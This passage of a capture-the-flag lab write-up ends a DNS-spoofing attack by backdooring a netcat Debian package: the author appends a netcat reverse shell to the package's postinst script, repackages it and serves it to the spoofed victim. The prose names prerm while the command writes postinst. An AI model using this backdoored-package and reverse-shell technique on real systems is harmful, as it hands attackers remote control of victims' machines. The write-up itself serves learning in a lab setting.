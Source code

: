 ```
        handle_dns_request(packet)
        DNS_HANDLED += 1

def main():
    sniff(prn=handle_packets, store=0, iface="eth0")

if __name__ == "__main__":
    main()
```

With both the ARP and DNS spoof running, we see the following in tshark:

```
58 2.461078184    10.6.6.35 → 10.6.0.2     TCP 74 58816 → 80 [SYN] Seq=0 Win=64240 Len=0 MSS=1460 SACK_PERM=1 TSval=3558253731 TSecr=0 WS=128
59 2.461117528     10.6.0.2 → 10.6.6.35    TCP 54 80 → 58816 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0
```

It looks like our compromised host is trying to access a webpage at our intercepted domain. Using `python3 -m http.server 80`, it's simple to stand up an HTTP listener to see what the request is:

```
guest@d2e4d36a41bd:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [31/Dec/2020 01:54:29] code 404, message File not found
10.6.6.35 - - [31/Dec/2020 01:54:29] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
```

Looks like it's trying to download a .deb archive, which will presumably immediately be installed. Good news for us, we already have some .debs in `~/debs`:
```
guest@d2e4d36a41bd:~$ ls -l debs/
total 2548
-rw-r--r-- 1 guest guest   94748 Dec  5 00:00 gedit-common_3.36.1-1_all.deb
-rw-r--r-- 1 guest guest   14484 Dec  5 00:00 golang-github-huandu-xstrings-dev_1.2.1-1_all.deb
-rw-r--r-- 1 guest guest  269332 Dec  5 00:00 nano_4.8-1ubuntu1_amd64.deb
-rw-r--r-- 1 guest guest   61504 Dec  5 00:00 netcat-traditional_1.10-41.1ubuntu1_amd64.deb
-rw-r--r-- 1 guest guest 1662268 Dec  5 00:00 nmap_7.80+dfsg1-2build1_amd64.deb
-rw-r--r-- 1 guest guest  322680 Dec  5 00:00 socat_1.7.3.3-2_amd64.deb
-rw-r--r-- 1 guest guest  168956 Dec  5 00:00 unzip_6.0-25ubuntu1_amd64.deb
```

Since `netcat` is easily used to create a reverse shell, I go ahead and unpack that deb into a new directory, `backdoor`
```
guest@d2e4d36a41bd:~/debs$ dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb backdoor/
guest@d2e4d36a41bd:~/debs$ cd backdoor/
guest@d2e4d36a41bd:~/debs/backdoor$ ls
DEBIAN  bin  usr
```

Since I want to use netcat to build my reverse shell, I append a simple reverse shell to the `prerm` script, then repackage our backdoored deb file as "suriv_amd64.deb". With the new file created, I need to put it in the right directory:
```
echo '/bin/nc.traditional 10.6.0.2 1337 -e /bin/sh' >> DEBIAN/postinst
cd ~/debs
dpkg-deb -b ./backdoor suriv_amd64.deb
mkdir -p pub/jfrost/backdoor/
cp suriv_amd64.deb pub/jfrost/backdoor/
```

